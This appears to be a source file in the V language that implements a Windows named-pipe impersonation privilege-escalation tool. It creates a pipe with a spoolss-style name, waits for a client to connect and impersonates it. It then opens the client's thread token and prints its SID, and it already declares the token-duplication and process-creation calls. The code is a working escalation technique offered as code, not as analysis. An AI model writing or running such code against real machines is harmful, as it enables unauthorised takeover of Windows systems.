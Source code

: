```c
    dw_y_count_chars   u32
    dw_fill_attributes u32
    dw_flags           u32
    w_show_window      u16
    cb_reserved2       u16
    lp_reserved2       &byte
    h_std_input        voidptr
    h_std_output       voidptr
    h_std_error        voidptr
}

fn C.CreateNamedPipeW(&u16, u32, u32, u32, u32, u32, u32, &C.LPSECURITY_ATTRIBUTES) int
fn C.ConnectNamedPipe(voidptr, voidptr) int
fn C.ImpersonateNamedPipeClient(voidptr) bool
fn C.GetCurrentThread() int
fn C.OpenThreadToken(voidptr, u32, bool, voidptr) bool
fn C.GetTokenInformation(voidptr, u32, voidptr, int, &int) bool
fn C.ConvertSidToStringSidA(voidptr, voidptr) bool
fn C.DuplicateTokenEx(voidptr, u32, voidptr, u32, u32, voidptr) bool
fn C.CreateProcessWithTokenW(voidptr, u32, voidptr, &u16, u32, voidptr, voidptr, STARTUPINFO, PROCESS_INFORMATION) bool

fn main() {
    pipe_name := r"\\.\pipe\alex\pipe\spoolss"
    println("[*] Creating pipe: ${pipe_name}")
    // PIPE_ACCESS_DUPLEX=0x00000003, PIPE_TYPE_BYTE|PIPE_WAIT=0x00000000, C.NULL=voidptr(0)
    h_pipe := C.CreateNamedPipeW(pipe_name.to_wide(), C.PIPE_ACCESS_DUPLEX, 0, 10, 0x1000, 0x1000, 0, voidptr(0))
    if C.GetLastError() != 0 {
        println(C.INVALID_HANDLE_VALUE)
        println(C.GetLastError())
    } else {
        println("  [!] Created pipe: ${h_pipe}")
    }

    println("[*] Connecting to the pipe...")
    result := C.ConnectNamedPipe(h_pipe, voidptr(0))
    if result == 0 {
        println(C.GetLastError())
    } else {
        println("  [!] New connection ${result}") 
    }

    C.ImpersonateNamedPipeClient(h_pipe)

    mut h_token := &char(0)
    C.OpenThreadToken(C.GetCurrentThread(), 0xF01FF, false, &h_token)
    println("  h_token: ${h_token}")


    token_inf_lenght := 0
    C.GetTokenInformation(h_token, 1, voidptr(0), token_inf_lenght, &token_inf_lenght)
    println("  token_inf_lenght: ${token_inf_lenght}")

    mut token_information := &TOKEN_USER{} 
    C.GetTokenInformation(h_token, 1, &token_information, token_inf_lenght, &token_inf_lenght)
    println("  token_information: ${token_information}")
    println("\n")

    pstr := voidptr(0)
    C.ConvertSidToStringSidA(token_information, &pstr)
    println("[!] Found SID: ${cstring_to_vstring(pstr)}" )

```